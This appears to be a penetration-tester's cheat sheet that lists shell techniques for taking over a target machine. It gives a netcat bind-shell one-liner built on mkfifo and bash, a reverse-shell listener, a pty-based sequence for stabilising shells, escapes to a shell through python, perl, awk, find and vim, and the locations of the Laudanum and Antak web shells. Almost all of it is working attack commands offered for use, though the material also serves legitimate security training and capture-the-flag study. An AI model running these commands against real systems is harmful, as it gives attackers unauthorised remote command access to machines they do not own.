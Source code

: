 # Shells
## Bind shells
Target machine has a listener that is awaiting a connection from the attacking machine.

### Netcat
__Target__: ```rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <target IP> <port> > /tmp/f```  
__Attacker__: ```nc -nv <target IP> <port>```

## Reverse shells
Attacking machine has a listener that is awaiting a connection from the target machine.

### Netcat
__Attacker__: ```sudo nc -lvnp 443```

### Stabilising a reverse shell
Target must have Python installed.

1. Import pty module and spawn bash shell: ```python3 -c 'import pty;pty.spawn("/bin/bash")'```
2. Press ```CTRL + Z``` to background process and get back to host machine
3. Use stty command: ```stty raw -echo; fg```
4. Set the terminal emulator to xterm: ```export TERM=xterm```
5. Press ```Enter```

### Spawning an interactive shell
- Python: ```python -c 'import pty; pty.spawn("/bin/sh")'```  
- Perl: ```perl —e 'exec "/bin/sh";'```
- Ruby (run from script): ```ruby: exec "/bin/sh"```
- Lua (run from script): ```lua: os.execute('/bin/sh')```
- Awk: ```awk 'BEGIN {system("/bin/sh")}'```
- Find: 
    - ```find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;```
    - ```find . -exec /bin/sh \; -quit```
- Vim: 
    - ```vim -c ':!/bin/sh'```
    - ```vim```  
    ```:set shell=/bin/sh```  
    ```:shell```

## Web shells
### Laudanum
Repository of files in the ```/usr/share/webshells/laudanum``` directory that can be used for injection into a target machine to gain a reverse shell or execute commands.

### Antak
ASP.Net web shell that utilises PowerShell to interact with the host, found in the ```/usr/share/nishang/Antak-WebShell``` directory.